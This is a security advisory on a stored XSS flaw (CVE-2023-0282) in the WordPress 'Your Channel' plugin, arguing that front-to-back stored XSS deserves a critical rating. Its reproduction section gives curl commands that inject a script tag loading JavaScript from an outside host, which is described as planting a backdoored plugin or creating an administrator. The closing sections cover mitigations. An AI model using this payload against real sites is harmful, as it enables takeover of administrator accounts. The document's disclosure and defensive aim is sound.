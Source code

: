 ```yaml
---
layout: post
title: "CWE-79 Danger of stored XSS vulnerability in CMS especially for Wordpress"
categories: wordpress
author:
- TouchWeb.fr
- 202 ecommerce
- Friends-Of-Presta.org
meta: "CVE,Wordpress"
severity: "critical (9.0)"
---
```


As a developer, the severity level is often considered to be low. By underestimating the gravity, we lower our guard against these vulnerabilities. However, some types of vulnerabilities called "stored XSS" are particularly critical when they spread from the front office to the back office.

## Summary

* **Published at**: 2023-03-03
* **Platform**: All CMS. 
* **Weakness**: [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
* **Severity**: critical (9.0)

Vulnerability by design applied on Your Channel's plugin. This will work on any plugins which suffer of a XSS T2 F2B.

## Description

This publication is a summary of [TouchWeb](https://www.touchweb.fr)'s work studying the impact of XSS vulnerabilities in the context of the Wordpress CMS, following the [Prestashop related publication](https://friends-of-presta.github.io/security-advisories/modules/2023/02/07/stored-xss.html)

To highlight the criticality of XSS and give us the means to mitigate their effects, TouchWeb conducted its research based on the vulnerability of the [Your Channel plugins](https://wpscan.com/vulnerability/93693d45-5217-4571-bae5-aab8878cfe62), which in versions prior to 1.2.2 has a stored XSS.

It has been wrongly tag as MEDIUM gravity instead of **CRITICAL** gravity : [CVE-2023-0282](https://nvd.nist.gov/vuln/detail/CVE-2023-0282) like many others XSS T2 F2B :
- [WP-SCAN Unauthenticated Stored XSS](https://wpscan.com/search?text=unauthenticated%20stored&vuln_type=14)
- [WP-SCAN Subscriber+ Stored XSS](https://wpscan.com/search?text=subscriber%20&vuln_type=14)

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: required
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H)

### How to know if a XSS is critical ?

That's important to caracterize with strictness XSS. There is to many people which only tag this vulnerability as "XSS" which is dangerous since there will be misunderstood and often under valuation of gravity.

The most dangerous are XSS of type 2 according to their official CWE ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)), meaning Stored-XSS (or persistent XSS) and more specialy those which can be injected from FRONT by guest or assimilated to target BACK.

We will call them: [CWE-79](https://cwe.mitre.org/data/definitions/79.html) / T2-F2B (Type 2 : Stored XSS AND from Front office to Back office).

In summary, if you can inject a XSS from FRONT as guest (or assimilated), which will be stored in database then interprated on BACK, then it's a critical vulnerability which must be scored CVSS 3 : 9.0+/10 since it unlocks design's vulnerabilities (users's administration / plugins's administration)

For others XSS Type 2 F2F/B2B/B2F (front to front / back to back / back to front), you can preserve a low to medium gravity score. 

Nevertheless, be warn that on Wordpress, XSS of type 1 can be critical if it targets a backoffice due to native predictable backoffice link (natively /wp-admin/).

### Plugin presentation

The [Your channel](https://fr.wordpress.org/plugins/yourchannel/) plugin allow, as subscriber (the lowest native role on Wordpress), to post videos.

The video field is not protected in the sense that the entered value is stored as is in the database and displayed without escaping in the back office.

Example:
* yrc_lang[Videos] entered: <strong>my name</strong>
* result: my name will be displayed in bold in the back office in Your Channel's settings.

From then on, it is possible to inject malicious JavaScript, for example: `<script src='test.js'>`


### Proof of concept

Touchweb provides two benign JavaScript scripts that highlight the vulnerability for Wordpress 4.0+ (we tested for 6.1.1).
* Script A allows injecting a classic-editor plugin containing a backdoor without the knowledge of a moderator, i.e. an administrator with rights.
* Script B allows injecting an administrator (we cannot "disabled it" as PS POC B on creation because WP do not allow this).

**DO NOT TEST IT IN PRODUCTION.**


### How to reproduce?

* We installed Wordpress 6.1.1
* We installed the [yourchannel plugin zip](https://github.com/WPPlugins/yourchannel/archive/refs/tags/0.9.1.zip).
* We allow guest on Wordpress to be able to sign up then create an account as guest
* Login with the account you created as guest and reproduce [this POC](https://wpscan.com/vulnerability/93693d45-5217-4571-bae5-aab8878cfe62) :  by replacing `><script>alert(1)</script>` by `><scrip src=//1j.vc/wp_a.js>` or `><scrip src=//1j.vc/wp_b.js>`

```
curl -v --cookie-jar cookie.txt  -X POST -d "log=YOUR_SUBSCRIBER_LOGIN&pwd=YOUR_SUBSCRIBER_PASSWORD&wp-submit=Log+In" "https://preprod.XXX/wp-login.php" \
&& curl -v --cookie cookie.txt -X POST -d "action=yrc_save_lang&yrc_lang[Videos]=%22%3E%3Cscript%20src%3Dhttps%3A%2F%2F1j.vc%2Fwp_a.js%3E%3C%2Fscript%3E" -H "Content-Type: application/x-www-form-urlencoded" https://preprod.XXX/wp-admin/admin-ajax.php
```

* As administrator, return to the back office on plugin's configuration page (Settings > Your Channel)


### How to best protect yourself?

In the face of a Stored XSS vulnerability targeting the back office, it is impossible to undo all the effects. However, the most dangerous exploits can be limited.

* Systematically escape characters ' " < and > by replacing them with HTML entities and applying strip_tags
* Limit to the strict minimum the length's value in database - a database field which allow 10 characters (`varchar(10)`) is far less dangerous than a field which allow 40+ characters (use cases which can exploit fragmented XSS payloads are very rare)
* Configure CSP headers (content security policies) by listing  externals domains allowed to load assets (such as js files) or being called in XHR transactions (Ajax).
* If applicable: check against all your frontoffice's uploaders, uploading files which will be served by your server with mime type application/javascript (like every .js natively) must be strictly forbidden as it must be considered as dangerous as PHP files.
* Activate OWASP 941's rules on your WAF (Web application firewall) - be warn that you will probably break your backoffice and you will need to preconfigure some bypasses against these set of rules.


### How to know if I'm already infected by a XSS of type 2 (Stored-XSS)?

You must check every tables within your database which could store guest's input, at least against common XSS injection. 
You can find a list of potential hijacked events on [PrestaShop method Validate::isCleanHtml()](https://github.com/PrestaShop/PrestaShop/blob/develop/classes/Validate.php#L507)

Be warn that you will probably face falses positives alerts which can be time consumming.


### How CMS's core team can help ecosystem about CSP headers ?

If you already setup CSP headers, you already know that it's a plague on our E-Commerce ecosystem with tens externals dependancies (cariers / banks / tracking / remarketing / ...), to setup and more over to maintain over time.

This chaos generate front/back breaks on updates which make it stressfull for all professionnals trying to strength their protection against XSS.

It would be very appreciated if core team constrains plugins developpers to list with strictness their externals dependancies in a normative way which permit a professional generation of CSP headers - not based on chaotic front/back exploration.
